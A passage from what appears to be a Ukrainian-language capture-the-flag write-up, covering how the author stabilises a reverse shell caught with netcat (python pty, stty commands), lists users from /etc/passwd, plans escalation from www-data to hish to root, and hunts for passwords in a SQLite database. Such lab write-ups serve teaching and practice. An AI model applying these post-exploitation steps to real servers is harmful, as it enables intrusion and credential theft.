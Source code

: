3. Я люблю отримувати постійний інтерактивний шел, який не втратить з'єднання через деякий час, тому я використаю цей набір команд після отримання зворотнього з'єднання на нашій машинці:
   ```bash
   # Після отримання віддаленого з'єднання на netcat на нашій машині:
   python3 -c 'import pty; pty.spawn("/bin/bash")'
   export TERM=xterm-256color
   export TERM=xterm
   
   # Тепер натиснути Ctrl+Z
   
   stty raw -echo ; fg ; reset 
   stty columns 200 rows 200
   ```

## Ескалація привілеїв користувача

Коли ми отримуємо віддалений доступ до сервера, ми входимо в систему як користувач **www-data**, який використовується в Linux веб-серверами типу Apache/Nginx для хостингу веб-додатків.

Щоб окреслити наші наступні кроки, ми подивимося на доступних користувачів на сервері:

```bash
www-data@environment:~/app/storage/app/public/files$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
hish:x:1000:1000:hish,,,:/home/hish:/bin/bash
```

Після перегляду `/etc/passwd` (файл, що містить всіх користувачів, що існують в unix системах) ми можемо здогадатися, що нам потрібно буде отримати доступ до користувача hish, а потім експлуатувати наш шлях до root:
`www-data -> hish -> root`

### Перевірка файлів під www-data користувачем

Для початку нам потрібно перевірити будь-які критичні файли, які можуть містити інформацію про пароль hish (такі як логи, бази даних).

Під час пошуків я знайшов `database.sqlite` в `/var/www/app/database`:

![image](imgs/db.png)
